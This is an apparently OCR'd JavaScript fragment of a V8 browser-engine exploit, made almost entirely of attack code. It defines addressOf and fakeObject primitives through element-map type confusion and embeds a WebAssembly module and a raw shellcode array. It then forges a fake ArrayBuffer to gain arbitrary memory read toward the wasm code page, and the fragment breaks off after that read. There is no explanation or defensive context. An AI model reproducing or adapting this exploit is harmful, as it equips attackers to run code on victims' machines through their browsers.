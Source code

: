 ```

function addressOf(obj1) `{`
   obj_arr[0] = obj1;
   arb_double_arr[0x13a] = double_element_map;
   var addr = u64f(obj_arr[0]) - 0x1n;
   arb_double_arr[0x13a] = obj_element_map;
   return addr;
`}`

function addressOf2(obj1) `{`
   obj_arr[0] = obj1;
   arb_double_arr[0x13a] = double_element_map;
   var addr = u64f(obj_arr[0]) - 0x1n;
   arb_double_arr[0x13a] = obj_element_map;
   return addr;
`}`

function fakeObject(addr) `{`
   arb_double_arr[0x13a] = double_element_map;
   obj_arr[0] = i2f64(addr + 1n);
   arb_double_arr[0x13a] = obj_element_map;
   var mobj = obj_arr[0];
   return mobj;
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var faker = [0.0,1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];

var faker_addr = addressOf(faker);
//alert('wasm='+addressOf(wasmInstance).toString(16));
wasm_shellcode_ptr_addr = addressOf2(wasmInstance) + 0x88n;
var element_addr = faker_addr - 0x50n;
//print('element_addr=' + element_addr.toString(16));
//fake a ArrayBuffer's Map
faker[0] = i2f64(0n);
faker[1] = i2f64(0x1900042317080808n);
faker[2] = i2f64(0x00000000082003ffn);
faker[3] = i2f64(0);

//faker a ArrayBuffer
faker[4] = i2f64(element_addr+0x1n); //map
faker[5] = i2f64(0); //properties
faker[6] = i2f64(0); //elements
faker[7] = p64f(0xffffffff,0); //length
faker[8] = i2f64(wasm_shellcode_ptr_addr);
faker[9] = 0x2;

var arb_ArrayBuffer = fakeObject(element_addr+0x20n);
var adv = new DataView(arb_ArrayBuffer);
var wasm_shellcode_addr = adv.getBigUint64(0,true);
//alert('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));
```